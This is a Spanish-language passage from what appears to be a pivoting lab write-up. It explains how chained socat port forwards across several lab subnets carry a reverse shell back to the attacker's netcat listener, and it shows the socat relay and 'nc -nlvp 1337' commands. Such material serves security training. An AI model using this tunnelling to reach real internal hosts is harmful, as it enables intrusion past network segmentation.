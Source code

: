 En esta imagen, lo que podemos apreciar es lo siguiente:

1. Las conexiones que entren a la máquina **40.40.40.2** por su puerto *443*, las redirigirá al puerto *4443* de la máquina **30.30.30.2** (que a su vez es la **20.20.20.3**).
2. Estas conexiones que le entran a la máquina **30.30.30.2** (que también es la **20.20.20.3**) al puerto *4443*, las reenviará al puerto *4442* de la **20.20.20.2** (también es la **10.10.10.2**).
3. Por último, el tráfico que entre a la **20.20.20.2** (que también es la **10.10.10.2**) al puerto *4442*, las reenviará a nuestra máquina **10.10.10.1** por nuestro puerto *1337*.

Teniendo esto claro, aprovecharemos todo este flujo para, crear una simple redirección desde la **50.50.50.2** (que también es la **40.40.40.3**). De forma que, reenviaremos las conexiones entrantes al puerto *555*, hacia la **40.40.40.2** por su puerto *443*, en el que ya está redirigiendo todo el flujo que hemos explicado anteriormente y que llegará finalmente al puerto *1337* de nuestra máquina **10.10.10.1**.

```bash
./socat TCP-LISTEN:555,fork TCP:40.40.40.2:443
```

Además, tenemos que ponernos en escucha por el puerto en el que finalmente llegará la conexión.

```bash
nc -nlvp 1337
```

Todo esto que acabamos de comentar, debería de quedar de la siguiente imagen.

![Túnel de la 50.50.50.2 a la 40.40.40.2 para seguir el flujo anterior de redireccinoes.png](/assets/img/tunel-de-la-50.50.50.2-a-la-40.40.40.2-para-seguir-el-flujo-anterior-de-redireccinoes.png)

Seguidamente, enviaremos la *reverse shell* al nodo más cercano que, en este caso, es la **50.50.50.2**, y deberemos de introducir el puerto desde el cual nos hemos puesto en escucha con `socat`.

![Reverse shell desde la 50.50.50.2 a la 10.10.10.1 siguiendo el flujo de conexiones.png](/assets/img/reverse-shell-desde-la-50.50.50.2-a-la-10.10.10.1-siguiendo-el-flujo-de-conexiones.png)

Una vez ejecutado la *reverse shell*, recibiremos la consola interactiva de la **50.50.50.3**, hacia donde estábamos con `nc` en escucha

![Reverse shell recibida desde la 50.50.50.3.png](/assets/img/reverse-shell-recibida-desde-la-50.50.50.3.png)
